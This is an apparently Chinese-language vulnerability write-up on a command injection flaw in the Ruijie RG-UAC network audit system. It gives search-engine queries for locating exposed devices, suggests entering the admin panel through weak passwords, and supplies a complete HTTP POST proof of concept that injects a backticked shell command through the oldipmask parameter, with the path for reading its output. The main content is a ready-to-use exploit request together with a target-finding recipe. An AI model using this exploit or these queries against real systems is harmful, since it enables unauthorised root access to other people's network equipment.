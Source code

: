# 锐捷RG-UAC统一上网行为管理审计系统oldipmask后台命令执行漏洞

# 一、漏洞简介
锐捷RG-UAC统一上网行为管理审计系统存在命令执行漏洞,可以通过漏洞获取root权限 。

# 二、影响版本
+ 锐捷RG-UAC统一上网行为管理审计系统

# 三、资产测绘
+ hunter`app.name="Ruijie 锐捷 RG-UAC"`
+ fofoa:`app="Ruijie-RG-UAC"`

登录页

![1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c.png](./img/JaY0nGqm7djX0Trs/1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c-655255.png)

# 四、漏洞复现
使用弱口令/敏感信息泄露漏洞登录系统后台

![1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5.png](./img/JaY0nGqm7djX0Trs/1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5-440417.png)

获取Cookie后使用下面poc

```plain
POST /view/networkConfig/RouteConfig/nmc_StaticRoute/static_route_edit_ipv6.php?action=modify HTTP/1.1
Host: 
Cookie: PHPSESSID=ae63a240e1fdfb5614107040d19120f3
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 68

text_ip_addr=0000:0000:0000::0000&oldipmask=`ls+>1.txt`&oldgateway=1
```

![1714986746439-82767a50-8b67-4480-8517-a215d3ab8209.png](./img/JaY0nGqm7djX0Trs/1714986746439-82767a50-8b67-4480-8517-a215d3ab8209-727540.png)

```plain
/view/networkConfig/RouteConfig/nmc_StaticRoute/1.txt
```

![1714986728793-b60dd937-d634-4e87-83e8-6c03b4b983ae.png](./img/JaY0nGqm7djX0Trs/1714986728793-b60dd937-d634-4e87-83e8-6c03b4b983ae-380319.png)



> 更新: 2024-06-24 11:42:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rztq3930oo8129ns>